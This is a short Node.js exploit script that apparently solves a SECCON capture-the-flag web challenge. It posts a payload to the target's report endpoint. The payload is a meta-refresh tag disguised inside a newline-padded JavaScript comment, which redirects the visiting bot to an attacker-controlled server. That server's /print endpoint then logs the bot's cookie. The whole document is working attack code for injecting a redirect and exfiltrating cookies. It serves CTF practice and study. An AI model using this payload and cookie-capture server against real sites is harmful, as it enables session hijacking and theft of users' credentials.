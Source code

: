 ```javascript title="index.js"
const fastify = require("fastify")();
const fs = require("node:fs").promises;

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");
const LISTEN_PORT = process.env.PORT ?? "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const meta = `<meta http-equiv="Refresh" content="0; URL=${ATTACK_BASE_URL}">`;
  const code = `/*!${"\n".repeat(meta.length + 3)}${meta}*/\n`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        code,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const html = await fs.readFile("index.html");
    return reply.type("text/html; charset=utf-8").send(html);
  });

  fastify.get("/print", async (req, reply) => {
    console.log(req.query.cookie); // Print a flag
    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(2 * 1000);
      await exploit();

      await sleep(10 * 1000);
      fail("Failed");
    }
  );
};
start();
```
